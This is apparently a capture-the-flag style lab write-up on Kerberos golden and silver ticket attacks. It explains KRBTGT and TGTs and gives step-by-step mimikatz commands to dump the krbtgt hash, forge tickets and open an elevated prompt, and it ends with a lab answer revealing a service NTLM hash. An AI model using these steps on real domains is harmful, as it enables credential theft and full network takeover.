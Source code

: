 ```

A silver ticket can sometimes be better used in engagements rather than a golden ticket because it is a little more discreet. If stealth and staying undetected matter then a silver ticket is probably a better option than a golden ticket however the approach to creating one is the exact same. The key difference between the two tickets is that a silver ticket is limited to the service that is targeted whereas a golden ticket has access to any Kerberos service.

A specific use scenario for a silver ticket would be that you want to access the domain's SQL server however your current compromised user does not have access to that server. You can find an accessible service account to get a foothold with by kerberoasting that service, you can then dump the service hash and then impersonate their TGT in order to request a service ticket for the SQL service from the KDC allowing you access to the domain's SQL server.

##### KRBTGT Overview
In order to fully understand how these attacks work you need to understand what the difference between a KRBTGT and a TGT is. A KRBTGT is the service account for the KDC this is the Key Distribution Center that issues all of the tickets to the clients. If you impersonate this account and create a golden ticket form the KRBTGT you give yourself the ability to create a service ticket for anything you want. A TGT is a ticket to a service account issued by the KDC and can only access that service the TGT is from like the SQLService ticket.

##### Golden/Silver Ticket Attack Overview -
A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a TGT that impersonates the given service account information.

##### Dump the krbtgt hash -
1) ```cd downloads && mimikatz.exe``` - navigate to the directory mimikatz is in and run mimikatz
2) ```privilege::debug``` - ensure this outputs [privilege '20' ok]
3) ```lsadump::lsa /inject /name:krbtgt``` - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.
![](https://i.imgur.com/VOEsU4O.png)

##### Create a Golden/Silver Ticket -
1) ```Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:``` - This is the command for creating a golden ticket to create a silver ticket simply put a service NTLM hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

I'll show you a demo of creating a golden ticket it is up to you to create a silver ticket.

##### Use the Golden/Silver Ticket to access other machines -
1) ```misc::cmd``` - this will open a new elevated command prompt with the given ticket in mimikatz.
![](https://i.imgur.com/6HnEnwi.png)
2) Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.
![](https://i.imgur.com/BSh4rXy.png)

This attack will not work without other machines on the domain however I challenge you to configure this on your own network and try out these attacks.
```
What is the SQLService NTLM Hash?
> cd40c9ed96265531b21fc5b1dafcfb0a
```

```